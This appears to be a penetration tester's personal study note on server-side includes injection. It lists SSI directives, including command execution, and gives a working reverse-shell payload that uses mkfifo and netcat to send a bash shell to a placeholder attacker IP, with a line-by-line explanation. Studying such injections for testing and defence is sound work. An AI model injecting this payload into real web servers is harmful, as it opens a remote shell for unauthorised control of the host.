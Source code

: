 ```yaml
---
id: 3_SSRF
created_date: 06/01/2023
updated_date: 06/01/2023
type: note
---
```


#  3_SSRF SERVER-SIDE INCLUDES 
- **🏷️Tags** :  #01-2023 #SSRF #payloads #reverse_shell 

## 📝 Notes

Server-side includes (`SSI`) is a technology used by web applications to create dynamic content on HTML pages before loading or during the rendering process by evaluating SSI directives. Some SSI directives are:

Code: html

```html
// Date
<!--#echo var="DATE_LOCAL" -->

// Modification date of a file
<!--#flastmod file="index.html" -->

// CGI Program results
<!--#include virtual="/cgi-bin/counter.pl" -->

// Including a footer
<!--#include virtual="/footer.html" -->

// Executing commands
<!--#exec cmd="ls" -->

// Setting variables
<!--#set var="name" value="Rich" -->

// Including virtual files (same directory)
<!--#include virtual="file_to_include.html" -->

// Including files (same directory)
<!--#include file="file_to_include.html" -->

// Print all variables
<!--#printenv -->
```

The use of SSI on a web application can be identified by checking for extensions such as .shtml, .shtm, or .stm. That said, non-default server configurations exist that could allow other extensions (such as .html) to process SSI directives.

you can use the cmd command but what's better than a reverse-shell ? 

#### Reverse Shell

```html
<!--#exec cmd="mkfifo /tmp/foo;nc <PENTESTER IP> <PORT> 0</tmp/foo|/bin/bash 1>/tmp/foo;rm /tmp/foo" -->
```

-   `mkfifo /tmp/foo`: Create a FIFO special file in `/tmp/foo`
-   `nc <IP> <PORT> 0</tmp/foo`: Connect to the pentester machine and redirect the standard input descriptor
-   `| bin/bash 1>/tmp/foo`: Execute `/bin/bash` redirecting the standard output descriptor to `/tmp/foo`
-   `rm /tmp/foo`: Cleanup the FIFO file

## Questions/Thoughts
- FIFO stands for "First In, First Out." It is a type of file that works like a queue. When you add things (or "write") to the FIFO file, they are added to the end of the queue. When you take things (or "read") from the FIFO file, they are taken from the front of the queue. This means that the first thing you added to the FIFO file will be the first thing you take out.

- An example of using a FIFO file is in a ticketing system. Imagine you are at a concert and there are several ticket windows. When you buy a ticket, you go to the first available window and buy it. The first person to arrive at the concert gets the first ticket, the second person gets the second ticket, and so on. This is similar to how a FIFO file works.

## 🔗 Links
- 